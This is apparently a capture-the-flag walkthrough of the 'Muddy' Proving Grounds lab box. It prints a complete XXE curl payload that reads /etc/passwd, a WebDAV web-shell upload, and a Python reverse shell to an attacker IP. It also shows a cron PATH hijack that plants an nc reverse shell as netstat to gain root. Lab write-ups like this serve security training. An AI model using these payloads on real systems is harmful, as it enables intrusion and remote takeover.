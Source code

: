 # Muddy | PG Practice

***
## We sit in the mud... and reach for the stars.
## Author: whitecr0wz
## Released on: Aug 31, 2021
## Walkthrough: Yes
***


Running our nmap scan we have

```
# Nmap 7.94SVN scan initiated Tue Feb 20 03:49:12 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.178.161
Warning: 192.168.178.161 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.178.161
Host is up (0.14s latency).
Not shown: 65360 closed tcp ports (conn-refused), 168 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
25/tcp   open  smtp       Exim smtpd
| smtp-commands: muddy Hello nmap.scanme.org [192.168.45.204], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://muddy.ugc/
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
808/tcp  open  tcpwrapped
908/tcp  open  tcpwrapped
8888/tcp open  http       WSGIServer 0.1 (Python 2.7.16)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Ladon Service Catalog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 20 03:51:26 2024 -- 1 IP address (1 host up) scanned in 134.99 seconds

```


Navigating to the IP address we are been referred to `muddy.ug`


![](https://i.imgur.com/xccsjcV.png)



Go ahead and add that to your `/etc/hosts` file, then navigate back to the web page, in which runs on wordpress as we can see below


![](https://i.imgur.com/JmfToMp.png)



We can then use the `wpscan` tool to enumerate further


![](https://i.imgur.com/A4uBlnJ.png)



I tried enumerating plugins and themes but was only seeing stuff like **IDOR** and and **unauthenticated function injection** attacks which were just rabbit holes at the end of the day, Navigating to the other HTTP endpoint on http://muddy.ugc:8888/ which was running a **Ladon Service Catalog**, we have this

![](https://i.imgur.com/3nSmrZm.png)



Making more enumeration i found out that this is vulnerable to a **# XML External Entity Expansion** attack as `CVE-2019-1010268`, Using this [blog](https://vk9-sec.com/xxe-ladon-framework-for-python-xml-external-entity-expansion-cve-2019-1010268/),  we can exploit this by using this curl command to read the `/etc/passwd` file on the system

```bash
curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:HelloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11/checkout' | xmllint --format -
```


![](https://i.imgur.com/OPB2aey.png)



Now since we have found the XXE vulnerability let try searching for files on the system, first of all i started directory busting on the major page to see what we can identify using `dirsearch`


![](https://i.imgur.com/vZdAthb.png)


We were able to find a `/webdav` directory, After the long run i used the `/var/www/html/webdav/passwd.dav` in the article which just looks like http://muddy.ugc/webdav/ on the web surface 


![](https://i.imgur.com/Kj45a1g.png)



We now have the username called `administrant` and a password hash in MD5, let go ahead and crack the hash for the password

![](https://i.imgur.com/UNdm88r.png)



As we can see we have got the credentials of the `administrant` user called `sleepless`, Navigating to the `/webdav` directory, we are been asked for a password let try it out there and see what we have


![](https://i.imgur.com/zUQ5Sup.png)



As we can see we still have the same `passwd.dav` file, but googling for **webdav exploits**, i found something interesting we can upload a file with the tool `davtest` and then move it to another extension, some kind of file upload bypass


![](https://i.imgur.com/a1ZTWc4.png)


Let go ahead and save our web shell into a `.txt` file and then send it to the target server, then move it to a `.php` Extension


![](https://i.imgur.com/7fCka5W.png)



After several trials saw that i can't specify files locally, so let use `cadaver`


```bash
❯ cadaver http://muddy.ugc/webdav/
Authentication required for Restricted Content on server `muddy.ugc':
Username: **
Password: **

put ./shell.txt
move ./shell.txt ./shell.php
```



![](https://i.imgur.com/xjwyTwi.png)


Now let go ahead and check this out  on the web page, in which we do have it there, your truly :}




![](https://i.imgur.com/cZ8FfXF.png)




Let go ahead and get a reverse shell, Here is the payload i used 


```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.212",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```



![](https://i.imgur.com/ptDMBxk.png)



Checking cron jobs we can see that we have a command running by the root user at every minute


```
cat /etc/crontab
```


![](https://i.imgur.com/yZVwR1e.png)

> As seen above the command runs `netstat -tlpn` and sends the output to the `/root/status` location, does this same thing for `apache2` and `mysql`



First things first, let check if we have write access to any of the PATH location in the `/etc/crontab` file, in which as we can see we have all right as user `www-data`



![](https://i.imgur.com/0iD1unP.png)



We can create a replication of the `netstat` application as a reverse shell and let the cron job running as user `root` execute it for us


```bash
# save this into a file called netstat
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER-IP> 4444 >/tmp/f

# grant the file all permissions
chmod 777 netstat
```


![](https://i.imgur.com/KkLHbVj.png)



Now go ahead and start up your listener with netcat and after waiting for a minute you should have your reverse shell as user `root`


```
nc -lvnp 4444
```


![](https://i.imgur.com/t9aFHRI.png)


You can find the `local.txt` flag by using the find command


```bash
find / -type f -name local.txt 2>/dev/null
```



GG


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


